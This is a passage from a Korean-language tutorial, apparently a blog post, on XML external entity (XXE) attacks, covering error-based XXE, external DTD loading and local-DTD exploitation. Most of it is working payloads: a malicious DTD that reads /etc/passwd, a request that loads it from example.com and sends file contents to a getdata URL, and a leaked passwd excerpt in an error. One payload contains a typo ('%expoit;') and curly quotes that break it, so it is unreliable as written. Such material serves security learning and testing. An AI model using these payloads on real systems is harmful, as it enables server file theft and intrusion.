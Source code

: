 그럼 존재 하지 않는 파일을 조회 하기 때문에 아래와 같이 에러가 발생하게 됩니다.

```
java.io.FileNotFoundException: /empty/root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/bin/nologin
daemon:x:2:2:daemon:/:/usr/bin/nologin

(No such file or directory)
```

다만 이 결과를 돌려주지 않는 경우가 많기 때문에 우리는 외부 DTD파일을 실행하는 코드를 사용하게 됩니다.

---

# 외부 DTD 로 Error Based XXE 실행

**http://example.com/exploit.dtd**

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///empty/%file;'>">
%eval;
%error;
```

**Request**

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % data SYSTEM “http://example.com/exploit.dtd”>
    <!ENTITY % exploit "<!ENTITY &#x25; external SYSTEM 'http://example.com/getdata?data=%data;'>
    ">
    %expoit;
    %external;
]>
```

---

# 외부 DTD 로드 불가, 에러는 출력 해줄때 LFI Attack

위 exploit의 핵심은 외부 DTD 공격이 안되나 error를 출력해준다면 Local DTD로 exploit이 가능합니다.

쉽게 설명하자면 SQL Injection 공격과 비슷하다고 생각하시면 됩니다.

## Error Test

아래와 같이 XXE Playload를 작성하여 보냈다고 가정합니다.

**Request**

```
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % file SYSTEM "file:///tmp/aaa">
    %file;
]>
<message></message>
```
